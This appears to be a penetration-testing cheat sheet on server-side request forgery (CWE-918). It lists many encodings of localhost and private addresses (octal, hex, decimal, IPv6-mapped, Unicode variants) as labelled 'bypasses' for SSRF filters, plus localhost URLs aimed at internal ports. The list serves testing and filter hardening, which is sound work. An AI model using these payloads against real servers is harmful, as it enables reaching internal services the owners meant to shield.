 ```yaml
---
description: 'CWE-918: Server-Side Request Forgery (SSRF)'
---
```


# SSRF

## Local Host

```bash
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001

# Localhost
<http://127.0.0.1:80>
<http://127.0.0.1:443>
<http://127.0.0.1:22>
<http://127.1:80>
<http://127.000000000000000.1>
<http://0>
http:@0/ --> <http://localhost/>
<http://0.0.0.0:80>
<http://localhost:80>
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
<http://①②⑦.⓪.⓪.⓪>

# CDIR bypass
<http://127.127.127.127>
<http://127.0.1.3>
<http://127.0.0.0>

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
<http://2130706433/> = <http://127.0.0.1>
<http://3232235521/> = <http://192.168.0.1>
<http://3232235777/> = <http://192.168.1.1>

# Octal Bypass
<http://0177.0000.0000.0001>
<http://00000177.00000000.00000000.00000001>
<http://017700000001>

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
<http://0x7f000001/> = <http://127.0.0.1>
<http://0xc0a80014/> = <http://192.168.0.20>
```